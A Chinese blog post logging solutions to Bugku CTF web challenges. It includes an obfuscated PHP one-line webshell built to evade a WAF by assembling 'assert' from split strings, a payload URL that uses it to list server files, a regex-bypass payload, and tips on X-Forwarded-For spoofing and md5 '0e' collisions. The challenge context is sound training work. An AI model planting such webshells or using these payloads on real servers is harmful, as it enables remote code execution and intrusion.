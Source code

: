 ```yaml
---
title: Bugku刷题记录（一）
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-14 15:01:24
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1087061.jpg
---
```

因为Bugku的题目都比较简单，一道题一篇有点水，所以就直接整合起来了，目标在四次之内刷完web部分。
一、welcome to bugkuctf
这道题挂了......已经打不开了，跳下一题。

二、过狗一句话
提示：送给大家一个过狗一句话
<?php $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s']) ?>
发现里面的代码说明可以assert从而随意执行代码，而我们需要知道该目录下存在哪些文件。
php中读取目录下文件的方法：
最简单的是print_r(scandir($dir))
payload：http://123.206.87.240:8010/?s=print_r(scandir(%27./%27))
然后直接访问即可
（此题flag已经被人删了）

三、字符？正则？
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200714220422.png)
这个正则还挺烦的
.                                  匹配除 "\n" 之外的任何单个字符
*                                 匹配它前面的表达式0次或多次，等价于{0,}
{4,7}                           最少匹配 4 次且最多匹配 7 次，结合前面的.也就是                    匹配 4 到 7 个任意字符
\/                                匹配 / ，这里的 \ 是为了转义
[a-z]                           匹配所有小写字母
[:punct:]                     匹配任何标点符号
/i                                表示不分大小写
‘key’+任意单个字符+零个或多个+‘key’+任意单个字符+长度4-7+‘key:/’+任意单个字符+ / +（任意单个字符+零个或多个+‘key’)+英文小写字母一个+匹配‘!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~.’中一个字符
payload：http://123.206.87.240:8002/web10/?id=keykey1234key:/2/keya@

四、前女友(SKCTF)
挂了。。

五、login1(SKCTF)
挂了。。

六、你从哪里来
进去后提示are you from google
抓包改header就行。

七、md5 collision(NUPT_CTF)
这道题觉得极不合理啊，进去之后没有任何提示，仅仅一个标题说了md5碰撞，但是具体呢？
看了wp直接传了一个md5加密后开头是0e的值，觉得毫无逻辑可言。

八、程序员本地网站
提示从本地访问，抓包，X-Forwarded-For: 127.0.0.1

九、各种绕过
很简单的一个数组绕过。

今日总结：bugku上的题感觉都怪怪的。。。赶紧刷完回去复习buu上的题
